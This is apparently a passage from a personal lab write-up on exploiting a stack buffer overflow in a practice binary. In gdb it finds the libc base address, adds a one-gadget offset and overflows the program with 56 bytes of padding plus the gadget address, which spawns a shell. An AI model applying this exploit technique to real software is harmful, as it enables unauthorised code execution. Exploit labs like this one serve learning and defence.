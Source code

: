 ### Simple scenario to use offset
 Start program in gdb:
  > gdb -q Overflow

Add breakpoint to the start of the program. Once it reaches it:

> info proc mapping

Example:
> 0x7ffff79e4000     0x7ffff7bcb000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so


Here we can see base addresses of libraries! Let's take first one about libc and add offset to it. 

```shell
(gdb) x/10 0x7ffff79e4000+0x0004f322
0x7ffff7a33322 <do_system+1138>:	0x7f058b48	0x480039bb	0x4b6a3d8d	0x8d480016
0x7ffff7a33332 <do_system+1154>:	0xc7402474	0x39e2a105	0x00000000	0x9b05c700
0x7ffff7a33342 <do_system+1170>:	0x000039e2	0x48000000
(gdb) 
```
If we compare these hex numbers to previous instructions what we found in radare2, they are a match.

Let's overflow with gadget address:
```shell
(gdb) r $(python -c 'print "A" * 56 + "\x22\x33\xa3\xf7\xff\x7f"' )
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/nicce/Desktop/Shellcode Lab/Overflow $(python -c 'print "A" * 56 + "\x22\x33\xa3\xf7\xff\x7f"' )
process 16576 is executing new program: /bin/dash
$ exit
[Inferior 1 (process 16576) exited normally]
(gdb)
```
Shell was spawned and exit was clean.

> -- What is the most complex r2 command? q - then you have to deal with real life /o\

